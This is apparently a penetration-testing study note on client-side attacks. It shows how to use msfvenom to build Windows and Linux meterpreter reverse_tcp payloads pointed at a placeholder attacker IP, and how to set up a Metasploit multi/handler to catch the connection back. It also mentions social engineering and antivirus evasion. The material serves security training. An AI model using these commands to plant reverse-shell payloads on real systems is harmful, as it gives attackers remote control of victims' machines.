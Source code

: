 # Generating Payloads With Msfvenom

* A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.
* Client-side attacks typically utilize various social engineering techniques like generating malicious documents or protable executables (PEs).
* Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

## Msfvenom

* Msfvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.
* Msfvenom is a combination of two utilities, namely; msfpayload and msfencode.
* We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## Practice Demo

#### List out available payload

* "<mark style="color:yellow;">msfvenom --list payloads</mark>"

We will be focusing on the meterpreter payload.

### Difference between non staged and staged payloads

A non staged payload would be for example:

* "<mark style="color:yellow;">windows/x64/meterpreter\_reverse\_tcp</mark>"

While a staged payload would be:

* "<mark style="color:yellow;">windows/x64/meterpreter/reverse\_tcp</mark>"

The difference is in the name, showcasing the fact that a non-staged is sent together with the exploit.

### Generate a 32-bit Windows payload with Msfvenom

* "<mark style="color:yellow;">msfvenom -a x86 -p windows/meterpreter/reverse\_tcp LHOST=attackerIP LPORT=porttoconnectto -f exe > /home/kali/Desktop/'name</mark>'"
  * "<mark style="color:red;">-a</mark>": Target OS Architecture
  * "<mark style="color:red;">-p</mark>": Payload to use
  * "<mark style="color:red;">-f</mark>": Format of the payload

<mark style="color:purple;">NOTE:</mark> When outputting the payload, always specifiy the <mark style="color:red;">EXTENSION</mark> you gave it in the name of the file

### Generating a 64-bit payload

* "<mark style="color:yellow;">msfvenom -a x64 -p windows/x64/meterpreter/reverse\_tcp LHOST=attackerIP LPORT=porttoconnectto -f exe > /home/kali/Desktop/'name.ext</mark>'"

<mark style="color:purple;">NOTE:</mark> When outputting the payload, always specifiy the <mark style="color:red;">EXTENSION</mark> you gave it in the name of the file

### List Output format available

* "<mark style="color:yellow;">msfvenom --list formats</mark>"

### Generate Linux Payloads

* "<mark style="color:yellow;">msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=attackerIP LPORT=connecto -f elf > 'locationandname</mark>'

To execute it give it executable permission with "<mark style="color:red;">chmod</mark>".

### Set the platform for the payload

* <mark style="color:yellow;">--platform</mark>

## Setting up a handler&#x20;

A handler is necessary to receive the reverse tcp connection from the target system

### Using msfconsole

* "<mark style="color:yellow;">use multi/handler</mark>"
* "<mark style="color:yellow;">set payload 'payload specified in msfvenom'</mark>"

<mark style="color:purple;">NOTE:</mark> The payload in the handler has to be the same as when creating the payload with msfvenom.

Set the LHOST and LPORT options





















